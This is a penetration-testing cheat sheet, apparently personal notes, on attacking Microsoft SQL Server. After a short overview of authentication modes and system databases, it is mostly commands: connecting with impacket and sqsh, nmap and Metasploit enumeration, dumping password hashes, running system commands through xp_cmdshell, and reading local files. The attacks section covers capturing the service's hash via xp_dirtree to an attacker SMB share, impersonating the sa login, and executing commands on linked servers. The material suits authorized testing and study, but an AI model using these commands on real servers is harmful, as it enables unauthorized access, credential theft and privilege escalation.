 # MSSQL

## <mark style="color:yellow;">ABOUT</mark>

<mark style="color:red;">**Microsoft SQL (MSSQL)**</mark>**&#x20;is Microsoft's SQL-based&#x20;**<mark style="color:purple;">**relational database**</mark>**&#x20;management system.** It is popular among database administrators and developers when building applications that run on Microsoft's .NET framework due to its strong native support for .NET. MSSQL have a lot of different targets. Default port is <mark style="color:yellow;">**1433**</mark> and <mark style="color:yellow;">**1434.**</mark> More about MSSQL Hacking you could read here [**\[LINK\]**](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)

## <mark style="color:yellow;">**Authentication Mods**</mark>

**MSSQL** have 2 authentication mods: <mark style="color:yellow;">**windows authentication mode (default)**</mark> and <mark style="color:yellow;">**mixed**</mark>. Windows authentication mode is often referred as <mark style="color:yellow;">**integrated**</mark> because of high integration with AD and Windows. With this you could authenticate into database automatically if you have right user or member of right group. **Mixed mode** is supporting both **AD/Windows** authentication and **SQL** one.  <mark style="color:yellow;">**If we are specifying domain, it'll use Windows auth, if we don't specify domain, it'll use SQL auth.**</mark> We should use <mark style="color:green;">**`servername\\accountname`**</mark> for domain specification.&#x20;

## <mark style="color:yellow;">Databases</mark>

**MSSQL** has default system databases that can help us understand the structure of all the databases that may be hosted on a target server.

| Database                                         | Description                                                                                                                                                                                            |
| ------------------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| <mark style="color:green;">**`master`**</mark>   | Tracks all system information for an SQL server instance                                                                                                                                               |
| <mark style="color:green;">**`model`**</mark>    | Template database that acts as a structure for every new database created. Any setting changed in the model database will be reflected in any new database created after changes to the model database |
| <mark style="color:green;">**`msdb`**</mark>     | The SQL Server Agent uses this database to schedule jobs & alerts                                                                                                                                      |
| <mark style="color:green;">**`tempdb`**</mark>   | Stores temporary objects                                                                                                                                                                               |
| <mark style="color:green;">**`resource`**</mark> | Read-only database containing system objects included with SQL server                                                                                                                                  |

## <mark style="color:yellow;">MSSQL Useful Commands</mark>&#x20;

**HackTricks:** [**\[LINK\]**](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#common-enumeration)

| Command                                                                                                                                                                                                                                                                                                                                                               | Description                                                                                  |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------- |
| <mark style="color:green;">`impacket-mssqlclient carni17@13.13.13.13`</mark>                                                                                                                                                                                                                                                                                          | Connect to the MSSQL server.                                                                 |
| <mark style="color:green;">`SELECT name FROM master.dbo.sysdatabases;`</mark>                                                                                                                                                                                                                                                                                         | Show all databases                                                                           |
| <mark style="color:green;">**`use <database>;`**</mark>                                                                                                                                                                                                                                                                                                               | Select one of the existing databases                                                         |
| <mark style="color:green;">`SELECT * FROM databasename.INFORMATION_SCHEMA.TABLES;`</mark>                                                                                                                                                                                                                                                                             | Show all available tables in the selected database                                           |
| <mark style="color:green;">`select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;`</mark> | List users                                                                                   |
| <mark style="color:green;">`select * from <table>;`</mark>                                                                                                                                                                                                                                                                                                            | Show everything in the desired table                                                         |
| <mark style="color:green;">`xp_cmdshell 'whoami'`</mark>                                                                                                                                                                                                                                                                                                              | _<mark style="color:orange;">**NOT DEFAULT.**</mark>_ System command execution via **MSSQL** |
| <mark style="color:green;">`SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents`</mark>                                                                                                                                                                                                                                  | _<mark style="color:orange;">**NOT DEFAULT.**</mark>_ Reading local files                    |

## <mark style="color:yellow;">CMD Interacting</mark>

#### <mark style="color:blue;">Linux</mark>

```bash
sqsh -S 13.13.13.13 -U venator17 -P 'superkek' -h
# We need to use GO for command executon and use each line for each part of command which start with verb
```

```bash
sqsh -S 13.13.13.13 -U MILITECH\\venator17 -P 'superkek' -h 
# or we could use "." if we don't know domain name
```

```bash
impacket-mssqlclient MILITECH/ADMINISTRATOR@13.13.13.13 -windows-auth
```

#### <mark style="color:blue;">Windows</mark>

```bash
sqlcmd -S 13.13.13.13 -U venator17 -P superkek123
sqlcmd #If you are already in system
# We need to use GO for command executon and use each line for each part of command which start with verb
```

## <mark style="color:yellow;">ENUM</mark>

### <mark style="color:blue;">**Nmap**</mark> <mark style="color:blue;"></mark><mark style="color:blue;">Scan</mark>

```bash
sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 13.13.13.13
```

### <mark style="color:blue;">**Metasploit**</mark> <mark style="color:blue;"></mark><mark style="color:blue;">Scan</mark>

We can use <mark style="color:green;">**`mssql_ping`**</mark> to get more useful info about **MSSQL** server.

```bash
msf6 auxiliary(scanner/mssql/mssql_ping) > set rhosts 13.13.13.13

rhosts => 13.13.13.13

msf6 auxiliary(scanner/mssql/mssql_ping) > run

[*] 13.13.13.13:       - SQL Server information for 13.13.13.13:
[+] 13.13.13.13:       -    ServerName      = SQL-01
[+] 13.13.13.13:       -    InstanceName    = MSSQLSERVER
[+] 13.13.13.13:       -    IsClustered     = No
[+] 13.13.13.13:       -    Version         = 15.0.2000.5
[+] 13.13.13.13:       -    tcp             = 1433
[+] 13.13.13.13:       -    np              = \\SQL-01\pipe\sql\query
[*] 13.13.13.13:       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### <mark style="color:blue;">PowerUpSQL</mark>

<mark style="color:red;">**PowerUpSQL**</mark> [**\[LINK\]**](https://github.com/NetSPI/PowerUpSQL) is a SQL exploiting tool, which helps attack, enumeration etc.

```powershell
PS C:\> Import-Module .\PowerUpSQL.ps1
PS C:\> Get-SQLInstanceDomain
```

#### Login

<pre class="language-powershell"><code class="lang-powershell"><strong>PS C:\> Get-SQLQuery -Verbose -Instance "13.13.13.13,1433" -username "militech\sreed" -password "password123" -query 'Select @@version'
</strong></code></pre>

## <mark style="color:yellow;">ATTACKS</mark>

### <mark style="color:blue;">**Capture MSSQL Service Hash**</mark>

```sql
EXEC master..xp_dirtree '\\13.13.13.13\amogus\'
OR
EXEC master..xp_subdirs '\\13.13.13.13\amogus\'
# Then use Responder or impacket-smbclient to make a fake server and intercept hash
```

### <mark style="color:blue;">**Impersonating other users**</mark>

1. **Check what users can be impersonated**

<pre class="language-sql"><code class="lang-sql">SELECT distinct b.name
<strong>FROM sys.server_permissions a
</strong>INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
GO
</code></pre>

2. **Check current role and user**

```sql
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
GO
```

3. **Impersonating&#x20;**<mark style="color:green;">**`sa`**</mark>**&#x20;user**

```sql
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
GO
```

### <mark style="color:blue;">Check linked server</mark>

1. **Identify linked Servers**

```sql
SELECT srvname, isremote FROM sysservers
GO
```

There would be a server list, those with <mark style="color:purple;">**"1"**</mark> is remote, those with <mark style="color:purple;">**"0"**</mark> is linked.

2. **Check rights**

```sql
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [13.13.13.13\LINKEDSERVER]
GO
```

3. **Execute commands at linked server**

```sql
EXECUTE('') AT [13.13.13.13\LINKEDSERVER]
GO
```

If you have quotes in command, use double singe quotes for it (<mark style="color:purple;">**''example''**</mark>)

